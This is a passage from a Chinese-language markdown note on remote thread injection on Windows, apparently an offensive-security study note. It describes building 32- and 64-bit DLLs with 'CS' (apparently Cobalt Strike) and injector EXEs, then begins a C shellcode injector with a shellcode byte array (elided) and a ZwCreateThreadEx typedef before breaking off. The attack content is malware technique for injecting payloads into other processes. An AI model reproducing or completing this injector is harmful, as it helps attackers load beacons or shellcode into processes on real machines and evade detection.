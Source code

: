 ```c
}
```

使用CS分别生成 32核64 位DLL，然后在编译生成32位核64 位EXE，注入32位程序就使用32位EXE和32位DLL，64位同理

![image-20230211162240603](RemoteThreadInjection.assets/image-20230211162240603.png)

![image-20230211162250993](RemoteThreadInjection.assets/image-20230211162250993.png)







还可以注入SHELLCODE：

> https://blog.csdn.net/weixin_43815930/article/details/109923815

```c
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <stdio.h>
#include <Windows.h>
#include <TlHelp32.h>


//shellcode机器码
const char shellcode[] =
{
	0x55,0x8b,......,0x7e,0xb3
};


/*判断系统架构，并定义ZwCreateThreadEx函数指针*/
#ifdef _WIN64
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
```